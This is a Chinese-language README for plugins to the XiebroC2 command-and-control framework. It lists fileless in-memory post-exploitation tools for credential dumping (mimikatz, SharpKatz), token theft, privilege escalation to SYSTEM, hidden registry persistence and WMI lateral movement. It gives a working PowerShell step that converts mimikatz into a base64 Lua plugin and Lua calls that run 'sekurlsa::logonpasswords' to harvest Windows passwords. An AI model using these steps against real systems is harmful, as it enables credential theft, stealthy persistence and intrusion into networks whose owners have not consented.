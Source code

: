 





## 使用

```
git clone https://github.com/INotGreen/Xiebro-Plugins.git
```

Manage->Plugins->Load，加载main.lua即可

载入Sesion中你会得到更多得命令

![image-20240818163749325](Image/image-20240818163749325.png)



## 工具

目前已经扩展下面的工具,全部采用无文件落地的方式进行内存加载

|                           工具                           |                             描述                             |
| :------------------------------------------------------: | :----------------------------------------------------------: |
|       [fscan](https://github.com/shadow1ng/fscan)        |      内网综合扫描工具，方便一键自动化、全方位漏扫扫描。      |
|    [mimikatz](https://github.com/gentilkiwi/mimikatz)    |      从内存中提取明文密码、哈希、PIN 码和 Kerberos 票证      |
|    [RegHide](https://github.com/outflanknl/SharpHide)    |                     添加隐藏注册表启动项                     |
|     [SharpKatz](https://github.com/b4rtik/SharpKatz)     |          mimikatz的C#版本，用于获取明文密码和dcsync          |
|   [SharpScan](https://github.com/INotGreen/SharpScan)    | 内网资产收集、探测主机存活、端口扫描、域控定位、文件搜索、密码爆破和账号枚举 |
| [SharpToken](https://github.com/BeichenDream/SharpToken) |  Token窃取，切换System和administrator权限，用于提权降权场景  |
|    [SweetPotato](https://github.com/CCob/SweetPotato)    |                 将服务器权限提升至System权限                 |
|    [SharpWMI](https://github.com/QAX-A-Team/sharpwmi)    |      基于135端口的横向移动工具，可以执行命令，上传文件       |
|  [BadPotato](https://github.com/BeichenDream/BadPotato)  |                 将服务器权限提升至System权限                 |
|  [GodPotato](https://github.com/BeichenDream/GodPotato)  |                 将服务器权限提升至System权限                 |





XiebroC2的插件做到极度的简洁化，几乎只需一行代码你就可以为它添加一个外部命令

用Convert.ps1脚本可以直接将C/C++/Go/rust/.net/Bin等PE直接转成lua脚本

```powershell
Import-Module .\Convert.ps1
```

```powershell
Convert-ExeToBase64Lua -i "C:\Users\admin\Desktop\mimikatz.exe" -o "mimikatz.lua" -Command "Mimikatz" -LoadModule "inline-execute" -Description "Get windows password credentials" -Usage "Mimikatz <args>"
```



参数解释

```lua
-i:            选择输入的文件
-o:            输出的文件
-Command:      命令的名称
-LoadModule:   加载模式
-Description:  描述
-Usage:        使用方法
```



用于添加外部命令的函数主要有两个，AddCommand_W和AddCommand_A的区别在于：AddCommand_A打包了exe的使用参数，例如你可以直接将想直接使用logonpassword 



```lua
AddCommand_A(
    "logonpasswords",                                      --命令名称
     mimikatz,                                            --Base64Compress
    "privilege::debug sekurlsa::logonpasswords exit",      --exe的参数
    "inline-execute",                                      --加载模式
    "Get password credentials on windows",                 --命令描述
    "logonpasswords"                                       --使用方法
);
```



```lua
AddCommand_W(
    "mimikatz",
    mimikatz,
    "inline-execute",
    "Get password credentials on windows",
    "mimikatz <args>"
);
```



这里的LoadModule(加载模式)有四种

```lua
inline-execute                                     --内联加载C/C++/go/rust的exe文件
inline-execute-bin                                 --内联加载C/C++/go/rust的bin文件
inline-assembly	                                   --内联加载.net文件
execute-assembly                                   --Fork&&Run模式(创建子进程)进行内存加载.net文件
```



